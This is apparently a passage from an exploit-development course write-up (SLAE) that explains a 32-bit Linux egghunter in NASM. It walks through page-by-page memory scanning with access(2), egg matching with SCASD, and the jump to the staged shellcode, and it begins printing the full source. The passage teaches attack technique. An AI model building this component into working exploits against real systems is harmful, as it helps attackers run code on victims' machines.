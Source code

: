 ```nasm
cmp al, 0xf2     
jz page_alignment
```
 
Now we check what `access(2)` returns, if it's `0xFFFFFFF2`, indicating invalid memory, we JMP back up to the page_alignment label and move up a page. This is not the most robust check, if we were to not clear ECX we may get back `EINVAL`, or `0xFFFFFFEA`. If this is the case our egghunter will break and likely segmentation fault as all memory addresses would be considered valid.

```nasm
mov eax, 0x77303074
mov edi, edx
scasd
jnz inc_memory_addr       
``` 
 
Now if the memory is valid we begin checking for an egg. First we load the egg into EAX and we move the memory address we're checking into EDI. Then use a SCASD instruction to compare the strings. SCASD will return 0 if the strings are the same and it will also always increment EDI. If the egg is not found at this location, we JMP back to the `inc_memory_addr` label and try the next address. 

```nasm
scasd              
jnz inc_memory_addr
jmp edi            
```

If the egg is found, we SCASD again to make sure the egg is present twice and make the same JMP if it is not. EDI is incremented automatically again, and if we've found our egg we pass execution to EDI. 

Conclusion
==========

This egghunter is simple and relatively robust. It does not rely on any specific payload length or features, it will reliably find the egg in memory and pass execution to whatever resides in memory after it. I've also included in these sources an egghunter generator script that will produce an egghunter for a given user-provided egg. It takes four hex escaped bytes and uses it for its egg. For example, '\x41\x42\x43\x44'. You'll need to insert the egghunter and egg into your own shellcode/exploit. 
 
Sources
======= 

## Full Egghunter Source

The full source can also be found on my github [here.](https://github.com/fbcsec/slae-assignments/blob/master/3-egghunter/egghunter.asm). 

```nasm
global _start

section .text

_start:

xor ecx, ecx            ; null ecx
mul ecx                 ; null eax and edx

page_alignment:
or dx, 0xfff            ; page alignment so egghunter moves up in PAGE_SIZE increments.
                        ; A JMP taken to here moves up a page and checks if it's initialized.

inc_memory_addr:        ; a JMP taken here means the memory is valid and we are now searching for the egg
inc edx                 ; EDX holds the current memory address we are inspecting, it is incremented to a new memory location
lea ebx, [edx + 0x04]   ; load the address to be validated into EBX
```
